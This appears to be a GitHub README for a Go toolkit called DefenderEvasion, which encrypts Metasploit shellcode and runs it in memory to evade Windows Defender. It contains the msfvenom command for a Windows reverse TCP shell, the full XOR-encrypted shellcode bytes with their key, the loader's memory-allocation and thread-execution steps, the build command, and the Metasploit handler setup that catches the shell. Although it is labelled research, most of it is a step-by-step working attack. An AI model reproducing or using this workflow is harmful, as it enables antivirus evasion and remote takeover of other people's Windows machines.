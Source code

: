 
# 🛡️ Defender Evasion  

> _Because Windows Defender can’t stop what it can’t see._ 


> Minimal, research-focused toolkit for encrypted shellcode delivery & in-memory execution (Go).

---

<p align="center">
  <img src="https://img.shields.io/badge/Status-Research-red?style=for-the-badge" /> 
  <img src="https://img.shields.io/badge/Lang-Go%20%7C%20Shell-red?style=for-the-badge" /> 
  <img src="https://img.shields.io/badge/Scope-Encryption%20%7C%20Loader-blue?style=for-the-badge" />
</p>

---

## 🎯 Overview
DefenderEvasion is an **offensive research project** showcasing techniques to **slip past Windows Defender** using:  
- Custom **shellcode encryption** (XOR)  
- **In-memory execution** with Go  
- Expandable loaders (process injection, API unhooking in future)  

## 🚀 Workflow

1. **Generate Raw Payload**  

```bash
kant@APPLEs-MacBook-Pro ~/e/av-evasion> /opt/metasploit-framework/bin/msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.134.217.216 LPORT=4545 -f raw > plain-rev-shell.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes

kant@APPLEs-MacBook-Pro ~/e/av-evasion> 

```

2. **Encrypt the Shellcode**

```bash
kant@APPLEs-MacBook-Pro ~/e/av-evasion> cd encrypter/
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ls
encrypter* main.go
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> rm encrypter 
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> go build -o encrypter main.go
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ls
encrypter* main.go
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ./encrypter -h
Usage of ./encrypter:
  -file string
    	Path Of the Shellcode
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ./encrypter -file=../plain-rev-shell.bin
[]byte{121, 205, 6, 97, 117, 109, 73, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 138, 50, 207, 207, 205, 14, 247, 213, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 205, 14, 215, 165, 196, 212, 14, 199, 185, 205, 132, 85, 227, 4, 253, 157, 142, 135, 138, 0, 247, 133, 133, 133, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 14, 205, 157, 213, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 200, 180, 76, 196, 14, 177, 13, 205, 132, 83, 205, 180, 69, 196, 68, 76, 136, 41, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 206, 122, 122, 122, 216, 204, 59, 242, 246, 183, 218, 182, 183, 133, 133, 196, 211, 204, 12, 99, 205, 4, 105, 37, 132, 133, 133, 204, 12, 96, 204, 57, 135, 133, 148, 68, 143, 3, 92, 93, 196, 209, 204, 12, 97, 201, 12, 116, 196, 63, 201, 242, 163, 130, 122, 80, 201, 12, 111, 237, 132, 132, 133, 133, 220, 196, 63, 172, 5, 238, 133, 122, 80, 239, 143, 196, 219, 213, 213, 200, 180, 76, 200, 180, 69, 205, 122, 69, 205, 12, 71, 205, 122, 69, 205, 12, 68, 196, 63, 111, 138, 90, 101, 122, 80, 205, 12, 66, 239, 149, 196, 221, 201, 12, 103, 205, 12, 124, 196, 63, 28, 32, 241, 228, 122, 80, 0, 69, 241, 143, 204, 122, 75, 240, 96, 109, 22, 133, 133, 133, 205, 6, 105, 149, 205, 12, 103, 200, 180, 76, 239, 129, 196, 221, 205, 12, 124, 196, 63, 135, 92, 77, 218, 122, 80, 6, 125, 133, 251, 208, 205, 6, 65, 165, 219, 12, 115, 239, 197, 196, 220, 237, 133, 149, 133, 133, 196, 221, 205, 12, 119, 205, 180, 76, 196, 63, 221, 33, 214, 96, 122, 80, 205, 12, 70, 204, 12, 66, 200, 180, 76, 204, 12, 117, 205, 12, 95, 205, 12, 124, 196, 63, 135, 92, 77, 218, 122, 80, 6, 125, 133, 248, 173, 221, 196, 210, 220, 237, 133, 197, 133, 133, 196, 221, 239, 133, 223, 196, 63, 142, 170, 138, 181, 122, 80, 210, 220, 196, 63, 240, 235, 200, 228, 122, 80, 204, 122, 75, 108, 185, 122, 122, 122, 205, 132, 70, 205, 172, 67, 205, 0, 115, 240, 49, 196, 122, 98, 221, 239, 133, 220, 204, 66, 71, 117, 48, 39, 211, 122, 80}

```

---

3. **Paste into Loader**

The loader will:

- Decrypt using the same key (133)

- Allocate memory with VirtualAlloc

- Change memory protection to PAGE_EXECUTE_READ

- Launch shellcode in a new thread with CreateThread

---

4. **Build the Loader**

```bash
kant@APPLEs-MacBook-Pro ~/e/a/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
```

5. **Run & Catch the Shell**

### msf 

```bash

msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.134.217.216
LHOST => 10.134.217.216
msf exploit(multi/handler) > set LPORT 4545
LPORT => 4545
msf exploit(multi/handler) > run
```
---

<img width="1299" height="438" alt="Screenshot 2025-09-05 at 5 21 36 AM" src="https://github.com/user-attachments/assets/c073ecbf-2ab0-44a0-b8ee-b2a858c5e89e" />

---

## Windows :

<img width="1060" height="610" alt="Screenshot 2025-09-05 052353" src="https://github.com/user-attachments/assets/799e382d-cb9a-47c3-9490-87a1dd8e8dd0" />

---



